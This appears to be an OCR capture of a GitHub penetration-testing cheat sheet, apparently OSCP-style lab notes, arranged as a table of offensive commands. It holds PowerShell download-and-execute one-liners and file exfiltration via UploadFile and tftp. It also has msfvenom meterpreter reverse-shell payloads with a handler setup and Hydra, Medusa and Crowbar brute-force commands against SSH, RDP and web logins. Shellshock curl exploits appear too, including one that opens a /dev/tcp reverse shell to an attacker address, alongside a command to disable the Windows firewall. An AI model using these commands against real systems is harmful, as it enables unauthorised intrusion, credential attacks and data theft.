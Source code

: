 | Cross compile windows script in linux | 	i686-w64-mingw32-gcc exploit.c -o exploit_output -lws2_32 |
| Upgrade to interactive shell in Netcat | 	python -c 'import pty; pty.spawn("/bin/bash")' |
| Copy nc.exe to local ftp folder | 		sudo cp /usr/share/windows-resources/binaries/nc.exe /ftphome/ |
| Powershell one liner to download from Kali | powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://192.168.119.223/evil.exe', 'exploit.exe') |
| Download AND execute via powershell | 	powershell.exe IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.119.223/helloworld.ps1')  |
| Upload file from Windows to Kali | 		powershell (New-Object System.Net.WebClient).UploadFile('http://192.168.119.223/upload.php', 'important.docx')  |
| Start apache (/var/www/html) | 			sudo service apache2 start/stop |
| Run tftp | 								sudo atftpd --daemon --port 69 /tftp/ |
| Transfer from Windows to Kali via tftp | 	tftp -i 192.168.119.223 put nc.exe (read this for more info https://forums.offensive-security.com/showthread.php?28651-16-2-5-Uploading-Files-with-TFTP&highlight=tftp) |
| Standalone reverse shell via msfvenom | 	msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.119.223 LPORT=4444 -f exe > binary.exe |
| Msfvenom for powershell | 				msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.119.223 LPORT=4444 -f powershell  |
| Change powershell policy to run scripts | Set-ExecutionPolicy -ExecutionPolicy Unrestricted CurrentUser |
| Start meterpreter (one liner) | 			sudo msfconsole -x "use exploit/multi/handler; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST 192.168.119.223; set LPORT 443; set AutoRunScript post/windows/manage/migrate; set ExitOnSession False;" -q |
| Type into meterpreter to keep session alive | 	set AutoRunScript post/windows/manage/migrate |
| Medusa htaccess password attack | 		medusa -h 10.11.0.22 -u admin -P /usr/share/wordlists/rockyou.txt -M http -m DIR:/admin |
| RDP brute force with Crowbar | 			crowbar -b rdp -s 10.11.0.22/32 -u admin -C ~/password-file.txt -n 1  |
| SSH brute force with Hydra | 				hydra -l kali -P /usr/share/wordlists/rockyou.txt ssh://127.0.0.1  |
| SSH brute force with Hydra on other port | hydra -f -l sunny -P /usr/share/wordlists/rockyou.txt -s 22022 10.10.10.76 ssh |
| HTTP POST attack with Hydra | 			hydra 10.11.0.22 http-form-post "/form/frontpage.php:user=admin&pass=^PAS S^:INVALID LOGIN" -l admin -P /usr/share/wordlists/rockyou.txt -vV -f |
| Find what's using port 80 | 				netstat -tulpn \| grep :80 |
| Mount smb share locally | sudo mount -t cifs -o port=4455 //192.168.223.10/Data -o username=Administrator,password=lab /mnt/win10_share/ |
| Get an interactive shell from smiple shell | python -c 'import pty; pty.spawn("/bin/bash")' |
| Start ftp on Kali | 						sudo systemctl start pure-ftpd |
| GoBuster for vulnerabilities | 			gobuster dir -u http://10.11.1.71/ -w /usr/share/seclists/Discovery/Web-Content/CGIs.txt -s '200,204,403,500' -e |
| GoBuster for directories | 				gobuster dir -u http://10.11.1.71/ -w /usr/share/seclists/Discovery/Web-Content/common.txt -s '200,204,301,302,307,403,500' -e |
| Scan a web server for Shellshock vuln | 	nmap 10.11.1.71 -p 80 --script=http-shellshock --script-args uri=/cgi-bin/test.cgi --script-args uri=/cgi-bin/admin.cgi |
| Exploiting shellshock |	curl -H "User-Agent: () { :; }; /bin/bash -c 'echo aaaa;  nc  -h 2>&1; echo zzzz;'" http://10.11.1.71/cgi-bin/admin.cgi -s \ \| sed -n '/aaaa/{:a;n;/zzzz/b;p;ba}' |
| Reverse shell through shellshock | 		curl -H "User-Agent: () { :; }; /bin/bash -c 'echo aaaa; bash -i >& /dev/tcp/192.168.119.223/443 0>&1; echo zzzz;'" http://10.11.1.71/cgi-bin/admin.cgi \| sed -n '/aaaa/{:a;n;/zzzz/b;p;ba}' |
| If command returns nothing | 				add 2>&1 to the end, or  >/dev/null |
| Fix path if whoami isn't recognized | 	export PATH=$PATH:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin |
| Get interactive windows shell | 			sudo rlwrap nc -nlvp 443 |
| Turn off Windows firewall (requires admin) | netsh advfirewall set allprofiles state off |
| Run windows process in the background | 	add cmd /c before the process |
| Mount SMB share | 						sudo mount //10.11.1.146/SusieShare ./mount/ -o username=" " |
| Unmount | 								umount /mnt |
| Switch to SMB1 | 							sudo nano /etc/samba/smb.conf and look for min protocol |
| Generate md5 in Windows 10 | 				`CertUtil -hashfile <path to file> MD5` |